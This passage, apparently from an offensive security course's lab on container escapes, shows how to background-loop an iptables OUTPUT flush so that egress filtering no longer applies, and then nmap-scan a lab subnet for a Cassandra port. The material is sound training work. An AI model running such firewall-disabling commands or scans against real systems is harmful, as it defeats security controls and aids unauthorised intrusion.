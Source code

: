 We'll start by creating an infinite loop by using **while true**. Next, we'll run the **flush** command on iptables. We don't want this to execute immediately, so we'll add a **sleep** to slow it down. The amount of time we sleep is arbitrary, but we'll choose to sleep for _half a second_. We'll wrap the entire command in **sh -c** so that we can stop it with a _process ID_ if needed. Finally, we'll add an ampersand at the end to send the command to the background.

```
quotes:~# sh -c 'while true; do iptables -F OUTPUT; sleep .5; done' &
quotes:~# ps
PID   USER     TIME  COMMAND
...
  98 root      0:00 sh -c while true; do iptables -F OUTPUT; sleep .5; done
...
```

> Listing 13 - Flush Chain Forever

Now if we attempt to scan the network, we won't be blocked. Let's scan the network for that 9042 port we discovered earlier. We'll scan the entire **192.168.51.0/24** network again. This time, we'll specify the port with **-p** and only display hosts that have the port open.

Don't forget to replace the third octet with the one found in your lab.

```
quotes:~# nmap 192.168.51.0/24 -p 9042 --open
...
Nmap scan report for 192.168.51.102
Host is up (0.44s latency).

PORT     STATE SERVICE
9042/tcp open  unknown
MAC Address: 00:50:56:95:B4:43 (VMware)

Nmap done: 256 IP addresses (3 hosts up) scanned in 6.76 seconds
```

> Listing 14 - Scanning the Network

A quick search reveals that this is the port for the _Cassandra database_. Now, we'll find more information in the environment and have a point to continue enumeration.

![[OffSec/Cloud/Offensive Cloud Foundations/z. images/6e165c4d01a3183df022fb9eae8f5ac6_MD5.jpg]]

Figure 1: Network Diagram of Environment

Excellent! We were able to modify the outgoing firewall rules to discover an additional host on the network.

1

(Michael Kerrisk, 2021), [https://man7.org/linux/man-pages/man7/capabilities.7.html](https://man7.org/linux/man-pages/man7/capabilities.7.html) [↩︎](https://portal.offsec.com/learning-paths/offensive-cloud-foundations-167536/learning/container-escapes-interacting-with-the-host-51510/executing-commands-51564/labs-51511#fnref-local_id_1083-1)

2

(Linux Foundation, 2022), [https://www.cni.dev/](https://www.cni.dev/) [↩︎](https://portal.offsec.com/learning-paths/offensive-cloud-foundations-167536/learning/container-escapes-interacting-with-the-host-51510/executing-commands-51564/labs-51511#fnref-local_id_1083-2)
